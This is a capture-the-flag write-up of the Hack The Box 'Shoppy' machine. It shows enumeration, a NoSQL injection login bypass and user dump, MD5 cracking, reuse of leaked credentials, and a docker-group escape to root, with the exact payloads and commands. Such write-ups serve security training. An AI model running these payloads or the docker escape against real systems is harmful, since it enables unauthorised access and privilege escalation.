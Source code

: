 # HTB - Shoppy
## Itay Nafrin | October 12th, 2022

### IP = 10.10.11.180

### NMAP
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### GoBuster
```
$ gobuster dir -u http://shoppy.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/10/12 12:16:11 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 179] [--> /images/]
/login                (Status: 200) [Size: 1074]              
/admin                (Status: 302) [Size: 28] [--> /login]   
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]   
/Login                (Status: 200) [Size: 1074]              
/js                   (Status: 301) [Size: 171] [--> /js/]    
/fonts                (Status: 301) [Size: 177] [--> /fonts/] 
/Admin                (Status: 302) [Size: 28] [--> /login]   
/exports              (Status: 301) [Size: 181] [--> /exports/]
/LogIn                (Status: 200) [Size: 1074]               
/LOGIN                (Status: 200) [Size: 1074]               
                                                               
===============================================================
2022/10/12 12:52:50 Finished
===============================================================
```
### Subdomain Hunting
```
$ wfuzz -c -f sub-fighter -w /usr/share/wordlists/SecLists-master/Discovery/DNS/bitquark-subdomains-top100000.txt -u 'http://shoppy.htb' -H "Host: FUZZ.shoppy.htb" --hw 11
Target: http://shoppy.htb/
Total requests: 100000
==================================================================
ID    Response   Lines      Word         Chars          Request    
==================================================================
47340:  C=200      0 L       141 W         3122 Ch        "mattermost"

Total time: 0
Processed Requests: 72307
Filtered Requests: 72306
Requests/sec.: 0
```
As you can see there is a subdomain that you can access which leads you to a login form.

### Web Enum
When you go to the login page you can see that there isn't much to do so you just try things like default credentials, sqli, LFI or NoSQLI and when you try NoSQLi you can see that it works!

### NoSQL Injection

```
Login Form
username: admin'||'1==1
password: sdasfesd
```

and it worked we're in!!!

### More Enum

As you can see there is a user searching engine so you can enter the same payload there and you'll get the id, username and password of the admin and josh. 
http://shoppy.htb/admin/search-users?username=admin%27%7C%7C%271%3D%3D1

```

0:	
id	"62db0e93d6d6a999a66ee67a"
username	"admin"
password	"23c6877d9e2b564ef8b32c3a23de27b2"
1:	
id	"62db0e93d6d6a999a66ee67b"
username	"josh"
password	"6ebcea65320589ca4f2f1ce039975995"

```

### Hash Cracking

```

(Windows)\hashcat-6.2.6>hashcat.exe -m 0 hashes\shoppy.txt rockyou.txt -O 
6ebcea65320589ca4f2f1ce039975995:remembermethisway

```

This is josh's password!!!
josh:remembermethisway

### Subdomain Enum 

http://mattermost.shoppy.htb - enter the credentials here 


here when you go the the Deploy Machine page you can see a message from jaeger and his ssh credentials.

```

jaeger
4:22 AM

Hey @josh,

For the deploy machine, you can create an account with these creds :
username: jaeger
password: Sh0ppyBest@pp!
And deploy on it
```

### SSH Login

```

$ ssh jaeger@shoppy.htb                
The authenticity of host 'shoppy.htb (10.10.11.180)' can't be established.
ED25519 key fingerprint is SHA256:RISsnnLs1eloK7XlOTr2TwStHh2R8hui07wd1iFyB+8.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'shoppy.htb' (ED25519) to the list of known hosts.
jaeger@shoppy.htb's password: Sh0ppyBest@pp!
jaeger@shoppy:$ whoami && id && cat user.txt
jaeger                                                                                                 
uid=1000(jaeger) gid=1000(jaeger) groups=1000(jaeger)                                                  
9ed8cdcabb97e01da19c2413fb8b1870

```

### Priv Esc
```

$ sudo -l
[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager

$ strings password-manager
more...
Welcome to Josh password manager!
Please enter your master password: 
Access granted! Here is creds !
cat /home/deploy/creds.txt
more...

```

This means that when you enter the right password it prints you deploy's credentials. Now, if you cat the program:

```
$ cat password-manager
Welcome to Josh password manager!Please enter your master password: SampleAccess granted! Here is creds !cat /home/deploy/creds.txtAccess denied! This incident will be reported ! 

```

You can see that right behind "Access granted!" there is a word: "Sample" and it didn't show when I ran strings so maybe it is the password.

```

jaeger@shoppy:$ sudo -u 'deploy' /home/deploy/password-manager
[sudo] password for jaeger: 
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!

```

It Worked!

```

jaeger@shoppy:$ ssh deploy@10.10.11.180
deploy@10.10.11.180's password: Deploying@pp!
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
$ bash
deploy@shoppy:$ whoami && id
deploy
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)


```

When running id we can see that deploy is a part of the docker group and it can be exploited so we can gain a root shell through it.

```

deploy@shoppy:/dev/shm$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
/# bash 
root@936fad3dc8dc:/# cd /root
root@936fad3dc8dc:/root# whoami && id && cat root.txt
root
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
cbfc5ed2b8fa25c6068e1b6123f8cf1a

```